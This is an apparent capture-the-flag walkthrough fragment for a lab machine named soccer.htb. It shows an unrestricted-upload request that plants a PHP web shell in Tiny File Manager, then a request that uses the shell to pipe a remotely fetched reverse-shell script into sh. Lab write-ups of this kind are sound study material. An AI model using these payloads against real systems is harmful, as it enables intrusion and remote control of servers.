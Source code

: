
---

## Exploit CVE for Vulnerable Version

---

### Exploit Website get Shell

---

#### UnRestricted File Upload 

```sh
POST /tiny/tinyfilemanager.php?p=tiny/uploads HTTP/1.1
Host: soccer.htb
Accept: application/json
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryb2kFsZoCHAQcAN7v
...
Connection: close

------WebKitFormBoundaryb2kFsZoCHAQcAN7v
Content-Disposition: form-data; name="p"

tiny/uploads
------WebKitFormBoundaryb2kFsZoCHAQcAN7v
Content-Disposition: form-data; name="fullpath"

pwn_the7ir.php
------WebKitFormBoundaryb2kFsZoCHAQcAN7v
Content-Disposition: form-data; name="file"; filename="pwn_123.php"
Content-Type: text/plain

<?php system($_REQUEST['cmd']); ?>
------WebKitFormBoundaryb2kFsZoCHAQcAN7v--
```

---

#### Call RCE

```sh
GET /tiny/uploads/pwn_the7ir.php?cmd=curl+userad+10.10.14.55%3a1337/reshell_python.sh|sh HTTP/1.1
Host: soccer.htb
...
```

Get shell www-data , but not read user.txt
Find a way

---

#### Figure out another Website
